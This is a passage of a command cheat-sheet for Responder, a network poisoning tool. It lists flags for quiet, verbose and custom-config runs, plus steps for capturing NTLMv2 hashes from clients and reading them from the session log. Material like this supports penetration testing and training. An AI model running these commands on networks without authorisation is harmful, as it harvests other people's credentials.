 #### **5. Run Responder in Quiet Mode**
- **Description:** Run Responder in quiet mode to minimize console output.
- **Command:**
  ```bash
  sudo responder -I <interface> -q
  ```
- **Example:**
  ```bash
  sudo responder -I eth0 -q
  ```
- **Explanation:**
  - The `-q` flag runs Responder in quiet mode, reducing the amount of output shown on the console.

#### **6. Start Responder with Specific Configuration**
- **Description:** Start Responder using a specific configuration file.
- **Command:**
  ```bash
  sudo responder -I <interface> -c /path/to/config
  ```
- **Example:**
  ```bash
  sudo responder -I eth0 -c /opt/responder/Responder.conf
  ```
- **Explanation:**
  - The `-c` flag allows you to specify a custom configuration file for Responder, modifying its behavior as needed.

#### **7. Running Responder with Verbose Output**
- **Description:** Start Responder with verbose output to display more detailed information.
- **Command:**
  ```bash
  sudo responder -I <interface> -v
  ```
- **Example:**
  ```bash
  sudo responder -I eth0 -v
  ```
- **Explanation:**
  - The `-v` flag enables verbose mode, showing detailed output on the console, which is useful for debugging or in-depth analysis.

#### **8. Capture NTLMv2 Hashes**
- **Description:** Use Responder to capture NTLMv2 hashes from network traffic.
- **Command:**
  ```bash
  sudo responder -I <interface>
  ```
- **Explanation:**
  - By simply running Responder on an interface, it can capture NTLMv2 hashes if a vulnerable client attempts to authenticate via SMB or other protocols.

#### **9. Viewing Captured Hashes**
- **Description:** View captured hashes and credentials stored by Responder.
- **Command:**
  ```bash
  cat /usr/share/responder/logs/Responder-Session.log
  ```
- **Explanation:**
  - Captured credentials and hashes are logged in the `Responder-Session.log` file located in the `/usr/share/responder/logs/` directory.
